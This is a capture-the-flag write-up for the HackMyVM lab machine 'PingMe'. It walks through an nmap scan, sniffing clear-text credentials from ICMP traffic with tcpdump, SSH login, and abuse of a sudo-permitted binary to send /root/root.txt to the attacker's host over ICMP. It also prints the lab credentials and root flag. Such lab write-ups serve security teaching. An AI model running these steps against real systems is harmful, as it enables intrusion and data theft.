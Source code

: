 # **PingMe || HackMyVM**

***
## **Difficulty : Medium**

![](https://i.imgur.com/JUhKVzd.png)

***


Running our nmap scan we have the below output


```bash
# Nmap 7.94SVN scan initiated Thu Oct 17 20:26:24 2024 as: /usr/lib/nmap/nmap --privileged -p- -T4 -v -sCV -oN nmap.txt 192.168.0.151
Nmap scan report for pingme (192.168.0.151)
Host is up (0.00032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 1f:e7:c0:44:2a:9c:ed:91:ca:dd:46:b7:b3:3f:42:4b (RSA)
|   256 e3:ce:72:cb:50:48:a1:2c:79:94:62:53:8b:61:0d:23 (ECDSA)
|_  256 53:84:2c:86:21:b6:e6:1a:89:97:98:cc:27:00:0c:b0 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Ping test
|_http-server-header: nginx/1.18.0
MAC Address: 08:00:27:E4:61:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 17 20:26:49 2024 -- 1 IP address (1 host up) scanned in 24.47 seconds
```


Navigating to port 80/HTTP we have the below page, which automatically pings the IP making the request to this site


![](https://i.imgur.com/oLJItSd.png)


Viewing page-source we have some few commented texts.


![](https://i.imgur.com/dBO2OXy.png)



To me this looks like an hint telling us to listen for ICMP echo requests, It is good practice not just to listen but to use the `-A` option to display all data as described [here](https://stackoverflow.com/questions/38342290/how-to-display-all-data-using-tcpdump)


```bash
❯ sudo tcpdump -i wlan0 icmp -A
[sudo] password for sec-fortress: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on wlan0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Then navigate to the website and refresh the page in which going back to our command lie you should see clear text credentials


![](https://i.imgur.com/6UX5S3u.jpeg)


We have the following credential ; `pinger:P!ngM3`, we can go ahead and try to use this to login via the SSH protocol, which works!!


```bash
❯ ssh pinger@192.168.0.151
The authenticity of host '192.168.0.151 (192.168.0.151)' can't be established.
ED25519 key fingerprint is SHA256:jIHuqj6aE+2blT+6SnkGKkaR7dRiUscb9FAVVG/h9DU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.151' (ED25519) to the list of known hosts.
pinger@192.168.0.151's password: 
Linux pingme 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Mar  5 19:21:06 2022 from 10.0.0.10
pinger@pingme:~$ whoami
pinger
pinger@pingme:~$ hostnamectl
   Static hostname: pingme
         Icon name: computer-vm
           Chassis: vm
        Machine ID: aabb374821d64f88bd7c0f7a62c74a03
           Boot ID: 4e955ff521ce46d9b87087be2b47370a
    Virtualization: oracle
  Operating System: Debian GNU/Linux 11 (bullseye)
            Kernel: Linux 5.10.0-11-amd64
      Architecture: x86-64
pinger@pingme:~$ 
```



Navigating to the `/var/www/html` directory and examining the `index.php` we can see how our user foothold was possible as described in the image below. 


![](https://i.imgur.com/T0r4WZz.png)



Checking for executables our current user can run with the `sudo` command we have the below output


```bash
pinger@pingme:/var/www/html$ sudo -l
Matching Defaults entries for pinger on pingme:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pinger may run the following commands on pingme:
    (root) NOPASSWD: /usr/local/sbin/sendfilebyping
pinger@pingme:/var/www/html$ 
```


It is possible to read the root flag as this program sends data over the ICMP protocol and it is most likely wouldn't be comfortable getting a reverse shell.


- Start up `tcpdump` listening on the ICMP protocol

```bash
❯ sudo tcpdump -i wlan0 icmp -A
```

- Then execute this command to get the root flag


```bash
pinger@pingme:/var/www/html$ sudo /usr/local/sbin/sendfilebyping 192.168.0.158 /root/root.txt
```


![](https://i.imgur.com/9BL8nDS.jpeg)


> **Note :** The root flag is  in sequence so, H - move to the next line, M - move to the next line, V - move to the next line.....Just like this.



<details>
  <summary>Root Flag Spoiler Warning</summary>
  
```
HMV{ICMPcanBeAbused}
```
  
</details>
